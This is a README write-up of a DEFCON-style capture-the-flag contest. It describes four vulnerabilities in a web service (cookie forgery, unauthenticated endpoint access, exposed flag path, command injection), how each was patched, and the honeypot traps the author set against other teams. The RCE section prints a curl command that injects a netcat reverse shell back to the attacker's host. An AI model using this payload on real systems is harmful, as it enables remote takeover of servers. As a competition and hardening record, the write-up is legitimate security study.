 # Attack-Patch-Prevail-48h-Defcon-Style-CTF-Showdown

### Author

- **Panagiotis Vardalas**
### *From Pawn to Immunity*

A full-cycle exploitation and hardening of a vulnerable web service during a 48-hour DEFCON-style Capture The Flag. This repository documents the four vulnerabilities I discovered and exploited live against other teams, alongside the patches and countermeasures I deployed to transform the same service into a fortified, trap-laden stronghold.

---

## 🛠️ Overview

In a high-stakes, time-constrained CTF environment, I identified and weaponized four critical vulnerabilities in a target web service. Each exploit was then fully patched and reinforced to not only block future attacks but actively disrupt and mislead adversaries attempting to exploit the same vectors. The result: a hardened service that became more dangerous to attack than to ignore.

---

## 🔍 Discovered Vulnerabilities & Patch Strategies

### 1. Privilege Escalation via Cookie Forgery
- **Exploit:**  
  Manually setting a cookie with `admin=1` granted full administrative access without validation.

- **Patch:**  
  Implemented cookie signing using HMAC-based validation. Every cookie is verified server-side using a secret key to prevent tampering.

---

### 2. Restricted Action Access via Direct Endpoint Call
- **Exploit:**  
  Direct requests to `/action.php` allowed any user to add restricted items (including the flag) to their cart.

- **Patch:**  
  Enforced backend role-based access control. Admin checks were implemented at the logic level, not just in the frontend or routing layer.

---

### 3. Direct Flag Exposure via Static Path
- **Exploit:**  
  Accessing `/key` revealed the flag directly due to exposed static file routing.

- **Patch:**  
  The application was restructured around a centralized router (`index.php`) that handles all access through controlled dispatch, preventing direct file exposure.

---

### 4. Remote Code Execution via Unsafe Command Execution
- **Exploit:**  
  A function used input to build shell commands like:  
  ```bash
  curl -X POST http://$ip:8005/actions.php -d "system=nc+$my-ip+4444+-e+/bin/bash"
  ```
  This enabled arbitrary command execution and allowed backdoors for submitting flags even if the service appeared down.

- **Patch:**  
  Introduced a strict whitelist of allowable commands and validated inputs thoroughly. The handler was refactored to eliminate dynamic shell calls where not explicitly needed.

---

## 🧠 Advanced Defensive Engineering & Active Traps

Beyond patching, I actively weaponized the service to turn attack attempts into disadvantages for my opponents.

---

## 🕳️ Honeypot Traps

- **Trap 1 – `/key`:**  
  Instead of returning a 403/404, this endpoint returned a **39KB payload** of pseudo-flag data after a **deliberate delay**, poisoning automated tools and overloading network analysis with useless but believable data.

- **Trap 2 – Patched `/action.php`:**  
  Unauthorized calls triggered **high-latency responses** and **large data dumps** designed to resemble valid flags, stalling and confusing enemy scripts.

---

## 📉 Impact on Opponents

- Enemy **PCAP files** grew to **multiple gigabytes**, bloated with meaningless data.
- Several teams **submitted fake flags** generated by the trap payloads.
- **Automated daemons crashed** or stalled due to high latency and bandwidth/resource exhaustion.
- Attacking my service **became a liability**, shifting the risk/cost balance in my favor.

---

## ⚔️ Conclusion

This repository showcases the offensive and defensive techniques used during a **48-hour DEFCON-style CTF** to fully compromise, secure, and militarize a web service.  
In a real-time, adversarial environment, success comes not only from breaching systems — but from **securing and turning them into traps** that actively punish attackers.
